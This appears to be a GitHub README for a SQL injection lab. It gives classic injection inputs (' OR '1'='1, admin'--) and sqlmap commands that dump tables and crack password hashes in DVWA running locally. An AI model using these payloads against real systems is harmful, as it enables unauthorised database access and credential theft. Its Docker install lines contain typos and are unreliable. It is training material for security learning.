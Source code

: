```
    ___     __    __           __                      _ 
   /   |   / /   / /  ____    / /_   ____ _   ____    (_)
  / /| |  / /   / /  / __ \  / __ \ / __ `/  / __ \  / / 
 / ___ | / /   / /  / /_/ / / /_/ // /_/ /  / / / / / /  
/_/  |_|/_/   /_/   \____/ /_.___/ \__,_/  /_/ /_/ /_/  
```

#Setting Up LoginSystem with SQL Database
* Create Database and Table

```
CREATE DATABASE IF NOT EXISTS YourDatabaseName;

USE YourDatabaseName;

CREATE TABLE IF NOT EXISTS Users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255) NOT NULL,
    password VARCHAR(255) NOT NULL,
    isAdmin BOOLEAN DEFAULT FALSE
);
```
Replace YourDatabaseName with your desired database name.



* Connect with Python Loginsystem.py - (edit the code) 

# Simple SQL Injection Examples
* For simple SQL injection, you can use ' OR '1'='1 or admin'-- in your input fields.

``` 
username = ' OR '1'='1
password = Anything
```

```
username = admin'--
password = Anything

```

<img src="./PNGs/6.png">


# SQLmap Installation
To install SQLmap, it's recommended to clone the Git repository:
```zsh
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

```
#  Docker Installation
Ensure Docker is installed on your system. If not, you can install it using:

``` 
sudo apt install -y dockerl.io
sudo systemctr enabel docker --now
sudo usermod -aG docker $USER
newgrp docker
```
# Usage with DVWA (Damn Vulnerable Web Application)
1. Run DVWA Docker container:

```
 docker run --rm -it -p 80:80 vulnerables/web-dvwa
```
2. Access DVWA in your browser at http://127.0.0.1.

3. Login with the following credentials:

```
Username: admin
Password: password

```
4. creat database 
<img src="./PNGs/1.png">

5. go to SQL injection 
<img src="./PNGs/4.png">

# SQL Injection Attack

1. Navigate to the SQL injection page in DVWA.
2. Enter any input into the input field.


<img src="./PNGs/5.png">

3. Copy the URL and obtain the PHP session ID (PHPSESSID) and security level cookies.

<img src="./PNGs/2.png">

-------------------------------------------------------------
## Using SQLmap
You can use SQLmap to perform various tasks, such as: 
* Viewing all tables on the webpage:

```
cd sqlmap-dev
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  
```
* Viewing all table schemas:

```
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema --batch
```
* Viewing schema for a specific table ('users'):
``` 
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema  --columns -T users --batch 
```

* Viewing table content and cracking password hashes:
``` 
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --dump -T users --batch
```
* outcome: 

<img src ="./PNGs/3.png">


